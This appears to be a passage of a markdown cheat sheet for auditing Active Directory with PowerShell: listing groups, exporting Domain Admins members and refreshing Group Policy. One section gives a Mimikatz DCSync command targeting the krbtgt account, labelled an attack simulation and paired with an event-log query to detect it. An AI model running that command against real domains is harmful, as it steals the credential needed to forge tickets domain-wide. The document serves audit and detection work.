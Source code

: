 ### 🔍 View All Groups

```powershell
Get-ADGroup -Filter * | Select-Object Name, GroupScope, GroupCategory
```

### 🔍 Get Members of Key Groups (e.g., Domain Admins)

```powershell
Get-ADGroupMember -Identity "Domain Admins" |
Select-Object Name, ObjectClass, DistinguishedName
```

---

# 🔐 **5. Privileged Group Membership Audit**

### 📤 Export Domain Admin Members to CSV

```powershell
Get-ADGroupMember -Identity "Domain Admins" |
Select-Object Name, ObjectClass, DistinguishedName |
Export-Csv -Path .\DomainAdmins.csv -NoTypeInformation
```

---

# 💣 **6. DCSync Attack Simulation (Mimikatz required)**

```plaintext
lsadump::dcsync /domain:yourdomain.local /user:krbtgt
```

> Run in Mimikatz to simulate DCSync. PowerShell can’t do this natively but **monitor** for it via:

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4662}
```

---

# 🔁 **7. Group Policy Enforcement & Policy Inspection**

### 🔁 Force Group Policy Refresh

```powershell
gpupdate /force
Invoke-GPUpdate -Force
```

### 📋 View GPO Result Summary

```powershell
gpresult /SCOPE COMPUTER /V
```
